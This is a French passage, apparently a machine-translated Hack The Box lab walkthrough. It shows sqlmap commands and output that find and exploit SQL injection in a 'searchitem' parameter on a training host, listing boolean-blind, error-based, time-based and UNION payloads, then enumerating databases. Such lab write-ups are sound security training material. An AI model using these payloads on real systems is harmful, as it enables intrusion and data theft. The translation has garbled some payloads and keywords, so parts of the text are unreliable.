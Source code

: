 Ensuite, nous exécutons cela via sqlmap comme suit :

```
dsgsec@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql

<SNIP>

[00:07:24] [INFO] (personnalisé) Le paramètre POST '#1*' est 'Requête MySQL UNION (NULL) - 1 à 20 colonnes' injectable
(personnalisé) Le paramètre POST '#1*' est vulnérable. Voulez-vous continuer à tester les autres (le cas échéant) ? [o/N] n
sqlmap a identifié le(s) point(s) d'injection suivant(s) avec un total de 59 requêtes HTTP(s) :
---
Paramètre : #1* (POST (personnalisé))
     Type : aveugle booléen
     Titre : AND booléen aveugle - Clause WHERE ou HAVING (commentaire MySQL)
     Charge utile : élément de recherche=%' ET 6921=6921#

     Type : basé sur les erreurs
     Titre : MySQL >= 5.6 basé sur les erreurs AND - Clause WHERE, HAVING, ORDER BY ou GROUP BY (GTID_SUBSET)
     Charge utile : searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

     Type : aveugle basé sur le temps
     Titre : MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Charge utile : élément de recherche = %' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

     Tapez : Requête UNION
     Titre : Requête MySQL UNION (NULL) - 4 colonnes
     Charge utile : élément de recherche=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x7 16a7a7171), NULL#
---
[00:07:37] [INFO] le SGBD back-end est MySQL
système d'exploitation du serveur Web : Linux Ubuntu 20.04 ou 19.10 ou 20.10 (eoan ou focal)
technologie des applications Web : Apache 2.4.41
SGBD back-end : MySQL >= 5.6
[00:07:38] [INFO] a récupéré des données enregistrées dans des fichiers texte sous '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] se terminant à 00:07:38 /2022-06-21/

```

Ensuite, nous pouvons énumérer les bases de données disponibleset voyez que la base de données `status` est particulièrement intéressante :

```
dsgsec@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql --dbs

<SNIP>

---
[00:09:24] [INFO] tester MySQL
[00:09:24] [INFO] confirmant MySQL
[00:09:24] [INFO] le SGBD back-end est MySQL
système d'exploitation du serveur Web : Linux Ubuntu 20.10 ou 20.04 ou 19.10 (focal ou eoan)
technologie des applications Web : Apache 2.4.41
SGBD back-end : MySQL >= 8.0.0
[00:09:24] [INFO] récupération des noms de base de données
bases de données disponibles [5] :
[*] information_schema
[*] MySQL
[*] schéma_performance
```